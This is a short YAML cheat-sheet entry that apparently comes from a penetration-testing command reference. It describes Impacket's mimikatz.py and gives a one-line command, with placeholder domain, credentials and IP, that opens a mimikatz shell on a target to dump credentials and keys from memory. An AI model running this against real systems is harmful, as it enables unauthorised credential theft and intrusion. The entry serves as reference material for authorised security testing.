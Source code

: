 ```yaml
---
description: |
  Impacket's mimikatz.py will drop you into a mimikatz shell on the target machine, allowing you to perform any mimikatz-related actions, such as dumping credentials from memory, dumping keys, etc.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 mimikatz.py test.local/john:password123@10.10.10.1
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

